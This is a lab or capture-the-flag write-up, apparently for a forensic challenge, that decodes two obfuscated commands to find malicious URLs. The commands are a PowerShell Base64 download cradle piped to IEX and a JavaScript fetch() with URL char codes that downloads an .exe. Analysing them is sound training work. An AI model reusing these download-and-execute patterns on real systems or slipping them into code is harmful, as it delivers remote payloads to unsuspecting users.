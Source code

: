 Now for this second task we are expected to check a static site and identify some malicious URLs

<img width="953" height="832" alt="image" src="https://github.com/user-attachments/assets/fdac2196-d6bb-44aa-a410-b7ae34506865" />

Shadow Trace is a forensic analysis tool designed to track and analyze network communications. With this we should be able to trace back the source of malicious communications and provide insights into how threats propagate within a network. We should be able to examine captured packets this way and correlating them with known indicators of compromise (IOCs).

To start with we are asked to identify the malicious URL from the trigger by the process powershell.exe. When we just focus on the command itself and read what is being spelled out, we can figure out pretty quickly that the command

```
(new-object system.net.webclient).DownloadString([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("aHR0cHM6Ly90cnloYXRtZS5jb20vZGV2L21haW4uZXhl"))) | IEX;
```

means that this PowerShell command decodes a Base64-encoded URL and downloads the content from it using the System.Net.WebClient class.

We just copy the base64 encoding and see what URL we receive. 

<img width="347" height="502" alt="Bildschirmfoto vom 2025-10-14 19-42-34" src="https://github.com/user-attachments/assets/56683f6a-0979-4f4d-818d-f49dd90f3260" />

After having inserted that URL successfully we check out the second command, which while also obfuscated, reveals a lot by just analyzing the command itself

```
fetch([104,116,116,112,115,58,47,47,114,101,97,108,108,121,115,101,99,117,114,101,117,112,100,97,116,101,46,116,114,121,104,97,116,109,101,46,99,111,109,47,117,112,100,97,116,101,46,101,120,101].map(c=>String.fromCharCode(c)).join('')).then(r=>r.blob()).then(b=>{const u=URL.createObjectURL(b);const a=document.createElement('a');a.href=u;a.download='test.txt';document.body.appendChild(a);a.click();a.remove();URL.revokeObjectURL(u);});
```

We can easily see that an array of decimal values, which when converted to character values reveals the real URL

<img width="823" height="710" alt="Bildschirmfoto vom 2025-10-14 19-50-04" src="https://github.com/user-attachments/assets/980eb1d8-af19-4a83-a243-c899ba3f816e" />

So basically the fetch() method downloads a file from the given remote URL and the rest of the code gets executed

```
.then(r => r.blob())
.then(b => {
  const u = URL.createObjectURL(b);
  const a = document.createElement('a');
  a.href = u;
  a.download = 'test.txt';
  document.body.appendChild(a);
  a.click();
  a.remove();
  URL.revokeObjectURL(u);
});
```
